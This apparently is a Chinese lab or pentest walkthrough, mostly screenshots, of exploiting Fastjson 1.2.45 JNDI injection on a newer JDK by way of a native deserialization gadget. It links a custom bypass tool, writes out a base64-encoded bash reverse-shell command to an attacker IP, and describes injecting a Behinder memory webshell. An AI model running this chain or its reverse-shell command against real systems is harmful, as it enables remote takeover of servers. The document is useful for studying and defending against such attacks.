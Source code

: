 首页：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695884408815-3c2adcfa-f6e7-4313-8659-8be0767a1ca1.png#averageHue=%231a1611&clientId=ubcf6682b-ddc2-4&from=paste&height=740&id=u743c6b3d&originHeight=925&originWidth=1760&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=3044703&status=done&style=none&taskId=u557edbdc-2df2-4c66-93dc-7a7c2507f8f&title=&width=1408)
登录处burp抓包，先查看fastjson版本(之前说过就不说了)， 1.2.45，在这个大版本下是存在JNDI注入的(mappings缓存绕过)，JNDI注入工具走一波，
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695778494110-00dadf4e-027d-47de-a04a-e54f7dbbcc6a.png#averageHue=%23fefdfd&clientId=uf8c09517-8f2f-4&from=paste&height=186&id=u517e3070&originHeight=232&originWidth=1103&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30677&status=done&style=none&taskId=u2924f6f4-8b2f-4ab4-88bc-6ccc74fc743&title=&width=882.4)
尝试所有他的links都失败了，原因就是这里的JDK版本为8u342，大于8u191导致的。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695780480086-c122d6c1-b317-4699-b931-58851dd2c1cb.png#averageHue=%23535965&clientId=uf8c09517-8f2f-4&from=paste&height=448&id=ua0a00069&originHeight=560&originWidth=1420&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1936888&status=done&style=none&taskId=u9206433d-9cde-4e0a-b3e0-f200b8a0228&title=&width=1136)
JNDI注入在JDK8u191之后受到了极大限制，所以这里需要绕过JDK高版本。JDK高版本绕过可以参考[浅蓝的这篇文章](https://tttang.com/archive/1405)。但这里还有一个问题，环境中并没有tomcat el或者groovy等依赖(这个同样有方法是可以探测到的)。
考虑到环境是FastJson的原因，之前的实验环境中又一直提到FastJson的原生发序列化漏洞，所以绕过的方式便是使用LDAP的javaSerializedData打Fastjson的原生反序列化Gadget。
为了方便，写了一个Bypass高版本JDK的工具，目前主要针对FastJson的JNDI注入，功能还比较单一，后续也打算在这基础上持续扩展和完善。[JNDIBypass.jar](https://pan.baidu.com/s/1RW5Cvg1KtLuIrQ5LZPoRFQ?pwd=aij8)
目前支持执行命令、注入内存马、回显马等基础的东西。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695884866072-765fef98-1df5-4f7a-9a2b-42247e64d4b9.png#averageHue=%234f5462&clientId=ubcf6682b-ddc2-4&from=paste&height=439&id=u4053f7ff&originHeight=549&originWidth=1441&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1948944&status=done&style=none&taskId=u47eefab8-9529-41de-b56c-659d7300613&title=&width=1152.8)
执行命令反弹shell：` java -jar .\JNDIBypass.jar -a 10.30.1.64 -p 1389 -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4zMC4xLjY0Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785888687-ff736c2a-e564-4536-ae2a-894462c2b883.png#averageHue=%23444851&clientId=uf8c09517-8f2f-4&from=paste&height=168&id=u8c991ce4&originHeight=210&originWidth=1456&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=677170&status=done&style=none&taskId=uc8dcac53-15d8-4286-83de-fdc78e42bdc&title=&width=1164.8)
将生成的JNDI Link填入
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785920483-a8ccbbbd-84cf-4071-8e9e-318c8d8698ae.png#averageHue=%23fefefe&clientId=uf8c09517-8f2f-4&from=paste&height=214&id=uc13684be&originHeight=267&originWidth=1064&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41798&status=done&style=none&taskId=ufe5b8dd5-440d-452e-8a4c-0e18e128615&title=&width=851.2)
反弹成功
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695785965696-8e739038-a91d-4b83-a4c2-b678e1bda047.png#averageHue=%2354535e&clientId=uf8c09517-8f2f-4&from=paste&height=190&id=ue613adeb&originHeight=237&originWidth=975&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=570277&status=done&style=none&taskId=u6437feeb-f783-4835-91b9-aa340cd30c4&title=&width=780)
尝试注入冰蝎马：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695786700256-c6112bfd-ff46-4a5b-9ac5-3c19e9dc6218.png#averageHue=%23464a52&clientId=uf8c09517-8f2f-4&from=paste&height=159&id=ud7e30bb9&originHeight=199&originWidth=1444&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=602425&status=done&style=none&taskId=uf80490e0-6edb-4be7-a048-5d9e11120a9&title=&width=1155.2)
冰蝎连接：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1695786791023-575f3c97-c7e4-48d2-af87-ff9f0f302722.png#averageHue=%23494949&clientId=uf8c09517-8f2f-4&from=paste&height=271&id=u7ed08584&originHeight=339&originWidth=974&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=21732&status=done&style=none&taskId=ud2ba4cb3-f59a-4ce3-83f5-c05279ef921&title=&width=779.2)

